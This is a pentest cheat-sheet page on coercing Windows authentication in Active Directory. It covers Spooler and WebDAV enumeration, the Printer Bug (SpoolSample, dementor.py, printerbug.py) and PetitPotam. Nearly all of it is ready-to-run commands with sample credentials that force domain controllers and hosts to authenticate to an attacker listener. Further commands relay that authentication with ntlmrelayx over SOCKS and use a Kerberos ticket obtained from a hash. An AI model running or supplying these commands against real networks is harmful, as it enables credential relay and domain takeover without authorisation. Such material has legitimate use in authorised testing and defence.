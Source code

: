 # Coerce Authentication




## Enumerate

Check if Spooler is running via Remote Registry:

```
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11 | grep -A2 -e MS-RPRN -e MS-PAR
```

Check if callback via WebDAV (HTTP) is possible. It **is** when the `WebClient` service is running. If it's possible, then [NTLM Relay to LDAPS](/pentest/infrastructure/ad/delegation-abuse/rbcd#dhcpv6-wpad-ntlm-relay-rbcd) on behalf of the relayed machine account is your chance for [RBCD workstation takeover](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb).

Check via PowerShell:

```
PS > Install-Module -Name NtObjectManager
PS > Get-NtFile -Win32Path '\\192.168.1.11\pipe\DAV RPC SERVICE'
```

Check via CME:

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M webdav
```

{% hint style="info" %}
It's a good idea to check if [NTLMv1 downgrade](/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade.md) is possible when triggering the callback.
{% endhint %}




## Printer Bug (MS-RPRN)

* [https://twitter.com/DebugPrivilege/status/1410158556540719104](https://twitter.com/DebugPrivilege/status/1410158556540719104)



### SpoolSample

* [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe](https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe)
* [https://github.com/BeetleChunks/SpoolSploit](https://github.com/BeetleChunks/SpoolSploit)

```
Cmd > .\SpoolSample.exe 192.168.1.11 10.10.13.37
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@80/test.txt
```



### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt DC01.megacorp.local
```



### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@80/test.txt
```




## PetitPotam (MS-EFSR)

**CVE-2021-36942**

* [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1)
* [https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e](https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e)
* [https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html](https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html)
* [https://itm4n.github.io/fuzzing-windows-rpc-rpcview/](https://itm4n.github.io/fuzzing-windows-rpc-rpcview/)
* [https://itm4n.github.io/from-rpcview-to-petitpotam/](https://itm4n.github.io/from-rpcview-to-petitpotam/)

```
$ python3 PetitPotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@80/test.txt 192.168.1.11
Cmd > .\PetitPotam.exe 10.10.13.37 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@80/test.txt 192.168.1.11 1
```

PetitPotam any host (not only a DC with null sessions allowed for the `IPC$` share) without initial creds via proxying through an authenticated session on behalf a DC-relayed machine account:

```
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.123
Something went wrong, check error status => SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

$ sudo ntlmrelayx.py -ip 10.10.13.37 -t 192.168.1.123 -smb2support --no-http-server --no-wcf-server -socks

$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 DC1.megacorp.local
ntlmrelayx> socks
ntlmrelayx> stopservers

$ sudo python Responder 
$ proxychains4 python3 Petitpotam.py -d MEGACORP -u 'DC1$' -no-pass 10.10.13.37 192.168.1.123
```

With Kerberos authentication:

```
$ getTGT.py megacorp.local/snovvcrash -hashes e929e69f7c290222be87968263a9282e:e929e69f7c290222be87968263a9282e -dc-ip 192.168.1.11
$ KRB5CCNAME=`pwd`/snovvcrash.ccache python3 PetitPotam.py -k -no-pass -d megacorp.local -u snovvcrash target.megacorp.local attacker.megacorp.local
```
